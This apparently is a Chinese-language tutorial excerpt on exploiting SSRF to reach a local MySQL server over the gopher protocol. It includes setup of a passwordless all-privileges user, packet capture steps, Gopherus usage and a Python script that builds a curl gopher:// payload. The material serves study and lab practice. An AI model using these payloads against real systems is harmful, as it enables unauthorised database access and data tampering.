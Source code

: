 php 5.7 安全性加强，默认不允许创建空密码用户。

新建一个无密码的mysql用户：

	CREATE USER 'usernopass'@'localhost';
	GRANT USAGE ON *.* TO 'usernopass'@'localhost';
	GRANT ALL ON *.* TO 'usernopass'@'localhost';

查看php 支持的扩展：

	php -m

[php如何查看扩展是否开启](https://blog.csdn.net/weixin_34055787/article/details/93571824)

可以用工具发包：

mysql协议实现了登录认证和执行sql：

	python exploit.py -u usernopass -d 'mysql' -P 'select now()' -v -c

下面2个包分别是mysql登录成功和失败的数据包：
```exploit mysql login success.pcap```  和 ```exploit mysql login fail.pcap```

攻击方法：

	tcpdump -i lo port 3306 -w mysql.pcap -vvv

	mysql -h 127.0.0.1 -u usernopass

使用神器[Gopherus](https://github.com/tarunkant/Gopherus)生成payload:

![](images/7.jpg)

用curl命令测试：

![](images/8.jpg)

工具原理：

![](images/9.jpg)

抓包，过滤请求包，查看raw：

![](images/10.jpg)

将内容复制，整理到一行，再使用如下脚本转化为gopher格式：

	s="c100000184a69f200000000121000000000000000000000000000000000000000f000000757365726e6f7061737300006d7973716c5f6e61746976655f70617373776f7264007e035f6f73054c696e75780c5f636c69656e745f6e616d650a6c69626d617269616462045f7069640532343032340f5f636c69656e745f76657273696f6e05332e312e39095f706c6174666f726d067838365f36340c70726f6772616d5f6e616d65056d7973716c0c5f7365727665725f686f7374093132372e302e302e31210000000373656c65637420404076657273696f6e5f636f6d6d656e74206c696d69742031"
	def result(s):
	    a=[s[i:i+2] for i in xrange(0,len(s),2)]
	    return "curl gopher://127.0.0.1:3306/_%" + "%".join(a)
	print result(s)

未做多个其他命令的测试，使用上面的神器应该可以满足大部分情况。

不过5.6，5.7默认都是只能写到指定目录，要结合文件包含。

	show global variables like '%secure%';

![](images/14.jpg)



## ssrf 解决方案
```